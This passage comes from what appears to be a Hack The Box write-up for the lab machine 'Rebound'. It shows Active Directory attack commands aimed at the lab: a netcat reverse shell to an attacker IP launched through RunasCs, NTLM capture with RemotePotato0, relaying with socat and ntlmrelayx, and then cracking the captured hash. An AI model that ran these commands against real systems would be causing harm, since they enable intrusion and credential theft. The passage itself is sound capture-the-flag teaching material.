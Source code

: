 <img src="https://i.imgur.com/Jv5Yg8q.png"/>

The password for this user will also be reverted so we can instead request TGT and login through winrm

<img src="https://i.imgur.com/Bpyadn0.png"/>

```bash
evil-winrm -i dc01.rebound.htb -r REBOUND.HTB
```

<img src="https://i.imgur.com/RqwGyGN.png"/>

Now our next target is `tbrady` since he can read GSMApassword of `Delegator` machine account

<img src="https://i.imgur.com/44rHkxM.png"/>

Getting a shell through nc64.exe with `RunasC.exe` to get a shell with netonly authentication

```bash
\RunasCs.exe winrm_svc 'P@assword@123' -d rebound.htb 'C:\Users\winrm_svc\Documents\nc64.exe 10.10.14.142 2222 -e cmd.exe' -l 9
```

<img src="https://i.imgur.com/zq25lTc.png"/>
After having a shell, with `quser` we can find `tbrady` being logged on the DC

<img src="https://i.imgur.com/ZN2Dv8d.png"/>

This is going to make possible for us to trigger an NTLM authentication of tbrady and capture the NTLMv2 challenge response through `RemotePotato0`

https://github.com/antonioCoco/RemotePotato0

We'll choose the second option which is `Rpc capture (hash) server + potato trigger`

```bash
.\RemotePotato0.exe -m 2 -r 10.10.14.142 -x 10.10.14.142 -p 9999 -s 1
```

On our machine we'll run socat and ntlmrealyx

```bash
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.11.231:9999 & sudo impacket-ntlmrelayx -t ldaps://10.10.11.231
```

<img src="https://i.imgur.com/OdpiUA3.png"/>

<img src="https://i.imgur.com/UOsDNWh.png"/>

Cracking this NTLMv2 challenge response, we'll get the password for tbrady

<img src="https://i.imgur.com/5K8Ilt5.png"/>

So now getting a shell as tbrady through RunasCS by redirecting stdin, stdout and stderr of the specified command to a remote host

